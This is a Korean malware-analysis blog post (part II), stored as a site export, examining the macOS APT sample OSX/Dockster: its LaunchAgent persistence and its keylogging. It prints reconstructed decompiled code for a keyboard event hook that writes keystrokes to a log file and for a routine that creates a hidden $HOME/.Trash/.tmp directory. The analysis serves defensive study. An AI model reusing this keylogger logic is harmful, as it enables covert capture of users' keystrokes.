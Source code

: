 ```yaml
    kEventParamKeyCode, typeUInt32, NULL, sizeof(result), NULL, &amp;result);\n\t\t\t\tVirtual2Ascii(result,
    &amp;v7);\n\t\t\t\treturn 0;\n\t\t\t}\n\t\t\tif(eventKind == kEventRawKeyDown)
    // 키가 눌린 경우\n\t\t\t{\n\t\t\t\t// 키 코드를 가져와서 ASCII 코드로 변환 후, 키로거 파일에 추가\n\t\t\t\tGetEventParameter(theEvent,
    kEventParamKeyCode, typeUInt32, NULL, sizeof(result), NULL, &amp;result);\n\t\t\t\tVirtual2Ascii(MonitorHandler::state,
    ..., &amp;v7);\n\t\t\t\tAppendKeyLogger(v7, 1);\n\t\t\t\treturn 0;\n\t\t\t}\n\t\t\tif(eventKind
    == kEventRawKeyUp) // 키가 UP된 경우\n\t\t\t{\n\t\t\t\tGetEventParameter(theEvent,
    kEventParamKeyCode, typeUInt32, NULL, sizeof(result), NULL, &amp;result);\n\t\t\t\tVirtual2Ascii(result,
    &amp;v7);\n\t\t\t\treturn 0;\n\t\t\t}\n\t\t\tif(eventKind == kEventRawKeyModifiersChanged)
    // 다른 키를 누르는 경우\n\t\t\t{\n\t\t\t\tGetEventParameter(theEvent, kEventParamKeyModifiers,
    typeUInt32, NULL, sizeof(result), NULL, &amp;result);\n\t\t\t\tMonitorHandler::state
    = v5;\n\t\t\t}\n\n\t\t}\n\t}\n\treturn 0;\n}</pre>\n이로 인해 공격자는 모든 키보드 입력과 마우스
    입력을 탈취할 수 있다.\n\nInstallMyEventHandler 함수가 완료되고 나면, AddEventTypeToHandler 함수로
    키보드 입력 이벤트를 핸들링할 수 있도록 한다. 앞서 CmdHandler에서도 이 과정이 있음에도 한번 더 핸들러를 등록한다. 즉, 키보드
    후킹은 들어오는 이벤트와 상관없이 무조건 데이터 탈취를 하겠다는 의미이다. 결국 키로거 함수의 기능을 코드로  표현하면 다음과 같이 정리할
    수 있다.\n<pre class=\"lang:objc decode:true\" title=\"RunKeyLogger\">int RunKeyLogger()\n{\n\tint
    status = API_lockfile(\"/var/tmp/48irfhjijwei4.lck\");\n\n\tif (status)\n\t{\n\t\tstrcpy(buf,
    getenv(\"HOME\"));\n\t\tbuf[strlen(buf)] += '/.Tr';\n\t\tbuf[strlen(buf)] += 'ash';\n\t\tmkdir(buf,
    777o);\n\n\t\tbuf[strlen(buf)] += '/.tm';\n\t\tbuf[strlen(buf)] += 'p'; // buf
    = '$HOME/.Trash/.tmp';\n\n\t\tGestalt('sysv', tmp);\n\t\tif(tmp &lt;= 0x102F)
    // Mac OS X 10.3 이하\n\t\t{\n\t\t\treturn -1;\n\t\t}\n\t\telse\n\t\t{\n\t\t\tInstallEventHandlers();
    // 커맨드 핸들러로 핸들링할 이벤트를 선정하고, 모니터 핸들러로 키보드 및 마우스 입력을 탈취\n\t\t\tAddEventTypesToHandler(sHandler,
    1, kEventClassKeyboard|kEventRawKeyDown); // 키보드 입력 이벤트\n\t\t\tAddEventTypesToHandler(fHandler,
    1, kEventClassKeyboard|kEventRawKeyDown);\n\t\t\tAddEventTypesToHandler(sHandler,
    1, kEventClassKeyboard|kEventRawKeyModifiersChanged); // 다른 키 입력 이벤트\n\t\t\tAddEventTypesToHandler(fHandler,
    1, kEventClassKeyboard|kEventRawKeyModifiersChanged);\n\t\t}\n\n\t}\n}</pre>\n일단
    이정도로 자동실행 등록 및 키로깅 기능을 알아보았다. part III에서는 감염 시스템 제어를 위한 C2(command and control)
    기능을 분석해보겠다.\n\n&nbsp;\n\n&nbsp;"
  fusion_builder_converted: 'yes'
author:
  login: n0fate
  email: rapfer@gmail.com
  display_name: n0fate
  first_name: ''
  last_name: ''
---
```

<p>연재</p>
<p>1. <a href="http://forensic.n0fate.com/?p=742">APT: OSX/Dockster analysis (Part I)</a></p>
<p>저번 발표에 이어서 이번에는 다음 두가지 기능에 대해 알아본다.</p>
<ul>
<li>최초 실행 시 자동 실행에 등록</li>
<li>'key'를 인자로 줄 경우, 키로깅 기능을 수행</li>
</ul>
<p>&nbsp;</p>
<h2>1. 최초 실행 시 자동 실행에 등록</h2>
<p>Mac OS X에도 윈도우처럼 프로그램이 자동 실행되도록 등록할 수 있다. 크게 기존 유닉스 시스템에 있던 자동 실행 요소(ex. rc)와 Mac OS X에서 추가된 자동 실행 지점(ex. LaunchAgent)이 있다. 이 악성코드는 Mac OS X에서 추가된 자동 실행 지점을 이용하였다. 보통 일반 트로이 목마는 루트 권한을 얻기 힘들기 때문에 루트 권한이 없는 상황에서 가장 많이 사용되는 '$HOME/Library/LaunchAgents'에 plist를 생성하는 방법으로 자동 실행을 등록한다. 이곳에 등록을 할경우, 사용자가 Mac OS X에서 사용자 인증을 받고 로그인되는 시점에 해당 디렉터리에서 지정한 프로그램이 실행된다. 참고로 이 방법 외에도 API를 이용하여 StartupItem 이라는 곳에  등록하는 방법도 있다. 이러한 방법은 추 후 자동 실행 요소를 따로 정리하도록 하겠다.</p>
<h3>ExeInstall::ExeInstall (생성자)</h3>
<p>자동 실행에 등록하는 행위는 ExeInstall Class에서 수행한다. 생성자는 다음과 같다.</p>
<p><a href="http://forensic.n0fate.com/wp-content/uploads/2014/01/exeinstall_constructor.jpg"><img class="aligncenter size-full wp-image-753" alt="exeinstall_constructor" src="{{ site.baseurl }}/assets/exeinstall_constructor.jpg" width="544" height="455" /></a></p>
<p>&nbsp;</p>
<p style="text-align: center;"><strong>Figure. ExeInstall Constructor</strong></p>